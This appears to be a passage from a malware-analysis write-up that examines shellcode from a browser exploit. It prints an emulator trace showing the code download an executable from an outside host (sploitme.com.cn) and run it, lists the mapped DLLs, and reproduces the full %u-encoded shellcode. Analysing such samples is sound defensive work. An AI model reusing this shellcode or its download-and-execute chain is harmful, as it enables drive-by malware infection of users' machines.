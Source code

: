 Functions found in the shellcode analysis:

```c
401086  GetTempPathA(len=88, buf=12fd80) = 22
4010b0  LoadLibraryA(urlmon.dll)
4010ca  URLDownloadToFileA(http://sploitme.com.cn/fg/load.php?e=3ÿ888ÿ888ÿ888ÿ888ÿ888ÿ888, C:\Users\husky\AppData\Local\Temp\e.exe)
4010d7  WinExec(C:\Users\husky\AppData\Local\Temp\e.exe)
4010e0  ExitThread(0)
```


DLL dependencies:

Command:

```c
scdbg.exe /dllmap aolwinamp-shellcode
```

![](/assets/img/Pasted image 20240809143549.png)


List of DLLs:

```c
kernel32 Dll mapped at 7c800000 - 7c8f6000  Version: 5.1.2600.5781
ntdll    Dll mapped at 7c900000 - 7c9b2000  Version: 5.1.2600.5755
ws2_32   Dll mapped at 71ab0000 - 71ac7000  Version: 5.1.2600.5512
iphlpapi Dll mapped at 76d60000 - 76d79000  Version: 5.1.2600.5512
user32   Dll mapped at 7e410000 - 7e4a1000  Version: 5.1.2600.5512
shell32  Dll mapped at 7c9c0000 - 7d1d7000  Version: 6.0.2900.6018
msvcrt   Dll mapped at 77c10000 - 77c68000  Version: 7.0.2600.5512
urlmon   Dll mapped at 78130000 - 78258000  Version: 7.0.6000.17096
wininet  Dll mapped at 3d930000 - 3da01000  Version: 7.0.6000.17093
shlwapi  Dll mapped at 77f60000 - 77fd6000  Version: 6.0.2900.5912
advapi32 Dll mapped at 77dd0000 - 77e6b000  Version: 5.1.2600.5755
shdocvw  Dll mapped at 7e290000 - 7e401000  Version: 6.0.2900.5512
psapi    Dll mapped at 76bf0000 - 76bfb000  Version: 5.1.2600.5512
imagehlp Dll mapped at 76c90000 - 76cb9000  Version: 5.1.2600.6479
winhttp  Dll mapped at 4d4f0000 - 4d549000  Version: 5.1.2600.6175
```


### Extracting the Shellcode on `directshow()` function:

Here's the shellcode:

```c
%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u343D
```
